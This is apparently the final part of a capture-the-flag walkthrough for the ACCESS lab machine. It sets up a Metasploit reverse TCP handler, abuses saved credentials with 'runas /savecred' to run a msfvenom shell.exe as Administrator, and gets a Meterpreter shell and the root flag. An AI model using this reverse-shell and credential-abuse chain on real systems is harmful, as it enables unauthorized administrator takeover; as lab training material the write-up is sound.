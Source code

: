 msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on <local IP address>:4444 
msf5 exploit(multi/handler) > 
```
*NOTE: It's important the payload you set is the same used in msfvenom

Fourth, now that metasploit is ready, all we have to do is execute the ```shell.exe``` as administrator. Doing a little research on runas with savecred available. I come across [this website](https://www.dummies.com/programming/networking/network-administration-runas-command/) detailing on how to use the runas command. In short, I do this command to execute the program:

```
C:\Users\security\Desktop>runas /savecred /user:Administrator "C:\Users\security\desktop\shell.exe"
```

Checking back to my other terminal which has metasploit open, there's a reverse TCP handler!

```
[*] Meterpreter session 1 opened
```

Now on metasploit, we can do ```sessions -i 1``` to go into interactive mode with session 1.

Doing a ```sysinfo``` check confirms that I'm on ACCESS with the correct OS and version. Last, doing ```shell``` to spawn a windows shell and then doing ```whoami``` on that shell reveals that we are ```Administrator```!

![image](https://user-images.githubusercontent.com/41026969/71541103-af4dea00-2921-11ea-9a02-0207cc721325.png)

Tracing back earlier to the ```C:\Users\``` directory, we see there's an ```Administrator``` directory that, this time, I can get into. Going in the ```Administrator\Desktop``` directory and doing a ```dir /A``` check, we find the root flag!

![image](https://user-images.githubusercontent.com/41026969/71541141-2be0c880-2922-11ea-907f-a36dec891284.png)

### Flags

User: ```C:\Users\security\Desktop\user.txt```

Root: ```C:\Users\Administrator\Desktop\root.txt```
